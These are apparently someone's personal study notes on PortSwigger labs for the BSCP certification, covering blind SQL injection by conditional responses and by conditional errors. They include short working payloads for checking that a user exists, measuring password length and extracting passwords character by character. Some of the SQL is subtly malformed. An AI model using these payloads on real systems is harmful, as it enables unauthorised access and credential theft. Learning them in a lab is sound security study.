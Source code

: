 # PortSwigger Labs -Notes
Am i getting ready for BSCP? I don't know


## SQL injection
###  blind - Conditional Responses
    Take a look and see wheather the page displays certain messages. Page's size is handful.

    * You might use it to determine if the username existing within the table
        This queries evaluates if the given username exists inside the table
        and (select 'a' from users where username = 'foo')='a
    
    * To get the password length. 
        and (select 'a' from users where username = 'foo' and length(password)>1)='a

    * To get the password by issuing one char at a time while looping through the password length
        The incremental must be where the first 1 is at.
        and (select substring(password,1,1) from users where username = 'foo')=§
    

### blind - Trigerring conditional errors

    * It can be used to return a database error (stack trace??) containing a specific given payload
        this payload `select` something. If this `thing` equal to 1 it gets devided by 0 or it `echoes` back a letter
        and (select case when (1=1) then 1/0 else 'a)='a

        #SUBSTRING PASSWORD GUESSING WITH CASE - HOME LAB
        select password (case when substring(password, 2,1) = 'u' then "RIGHT" else "NOOO" end) from blah where user = 'nobody';
